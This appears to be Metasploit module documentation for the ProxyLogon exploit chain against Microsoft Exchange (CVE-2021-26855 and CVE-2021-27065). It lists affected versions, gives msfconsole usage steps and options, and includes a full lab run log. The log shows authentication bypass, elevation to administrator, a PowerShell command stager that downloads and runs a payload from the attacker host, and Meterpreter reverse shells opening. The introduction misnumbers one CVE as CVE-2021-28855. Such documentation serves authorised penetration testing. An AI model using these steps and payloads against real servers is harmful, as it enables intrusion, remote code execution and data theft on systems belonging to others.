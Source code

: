 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

## Advanced Options

### MapiClientApp

This is MAPI client version sent in the request.

### MaxEntries

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

### TIMEOUT

The number of seconds to wait for a reply from a HTTP request. Default: 15

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name     Current Setting           Required  Description
   ----     ---------------           --------  -----------
   EMAIL    gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD   POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443                       yes       The target port (TCP)
   SRVHOST  0.0.0.0                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080                      yes       The local port to listen on.
   SSL      true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Meterpreter


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.110:443 - The target is vulnerable to CVE-2021-26855.
[+] Obtained HTTP response code 500 for https://172.20.2.110/ecp/R.js.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-500  (elevated to administrator)
[*] https://172.20.2.110:443 - Sending ProxyLogon request
[*]  * ASP.NET_SessionId: b687af0e-62ff-44ac-9aa2-01baa8d829be
[*]  * msExchEcpCanary: NBsILiOonEiWIPqyLjq9a5FOVt676NgI-frGOkd4RaBETlKR0Tc5nJEg_E_blC9_ZgNlX8LHNB4.
[*]  * OAB id: 482b1c13-3b3f-451b-8635-613aee2d256a (OAB (Default Web Site))
[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-27065
[*]  * prepare the payload on the remote target
[*]  * write the payload on the remote target
[!]  * wail a lot (0)
[!]  * wail a lot (1)
[+]  * yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.110:443
[*] Using URL: http://0.0.0.0:8080/l1Ij034H1
[*] Local IP: http://172.20.2.12:8080/l1Ij034H1
[*] Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile %TEMP%\\WcoJdFYJ.exe http://172.20.2.12:8080/l1Ij034H1 & %TEMP%\\WcoJdFYJ.exe & del %TEMP%\\WcoJdFYJ.exe"]
[*] Client 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /l1Ij034H1
[*] Sending payload to 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Sending stage (200262 bytes) to 172.20.2.110
[*] Client 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /l1Ij034H1
[*] Sending payload to 172.20.2.110 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Meterpreter session 19 opened (172.20.2.12:4444 -> 172.20.2.110:30682) at 2021-03-15 00:41:44 +0400
[*] Sending stage (200262 bytes) to 172.20.2.110
[*] Meterpreter session 20 opened (172.20.2.12:4444 -> 172.20.2.110:30685) at 2021-03-15 00:41:44 +0400
[*] Server stopped.

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
